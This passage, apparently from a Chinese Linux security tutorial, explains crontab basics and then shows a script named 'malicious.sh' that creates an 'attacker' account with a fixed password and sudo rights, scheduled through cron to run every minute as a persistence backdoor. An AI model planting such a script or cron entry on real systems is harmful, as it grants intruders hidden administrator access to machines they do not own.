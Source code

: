 例如，每天凌晨1点执行一个脚本：
```
0 1 * * * /path/to/script.sh
```



##### 管理cron Jobs

每个用户都有自己的crontab文件，位于`/var/spool/cron/crontabs/`目录下，

- 查看当前用户的cron Jobs：
  ```bash
  crontab -l
  ```
- 编辑当前用户的cron Jobs：
  ```bash
  crontab -e
  ```
- 删除当前用户的cron Jobs：
  ```bash
  crontab -r
  ```



##### 创建和利用Cron Jobs

假设我们有一个恶意脚本 `malicious.sh`，其内容如下：
```bash
#!/bin/bash
# 添加恶意用户并授予管理员权限
useradd -m attacker
echo "attacker:password" | chpasswd
usermod -aG sudo attacker
```
将这个脚本保存到 `/usr/local/bin/malicious.sh`，并赋予执行权限：
```bash
sudo chmod +x /usr/local/bin/malicious.sh
```
然后，编辑cron Jobs文件：

```bash
crontab -e
```
添加以下行，每分钟执行一次恶意脚本：
```bash
* * * * * /usr/local/bin/malicious.sh

```

确保cron服务在系统启动时自动启动，并运行

```bash
sudo systemctl enable cron
sudo systemctl start cron
```



